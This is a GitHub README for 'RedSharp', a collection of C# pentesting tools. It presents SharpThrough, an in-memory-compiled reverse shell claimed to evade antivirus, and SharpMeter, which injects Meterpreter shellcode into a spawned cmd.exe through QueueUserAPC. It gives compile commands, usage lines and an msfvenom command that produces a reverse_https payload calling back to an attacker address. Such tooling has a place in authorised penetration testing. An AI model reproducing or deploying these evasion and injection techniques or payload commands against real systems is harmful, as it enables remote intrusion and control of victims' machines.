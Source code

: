 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT
```

## SharpMeter
Executing Meterpreter generated shellcode via QueueUserAPC:  
(create a new process, "cmd.exe" in this case, and injects and executes shellcode in process memory).  
First, generate your payload in C# format, like this :  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_https  lhost=10.200.3.163 lport=443 -f csharp -o pay.txt```  
Watch out to your architecture choice! x64 payload will only work with x64 executable version of sharpmeter.  
Do not touch generated payload format (not even the variable name)! Leave it as it is.
```
Usage :
sharpmeter.exe PATH_TO_PAYLOAD

Setup your Meterpreter handler+payload listener on the attacking machine
```
An example payload (x64 format) is attached inside the project. IDE VS 2015, csproj is available.  
This program is capable of running ANY shellcode but you need to be aware of shellcode format; it has to be in "meterpreter" format, so you may eventually convert it (but it's an easy task)
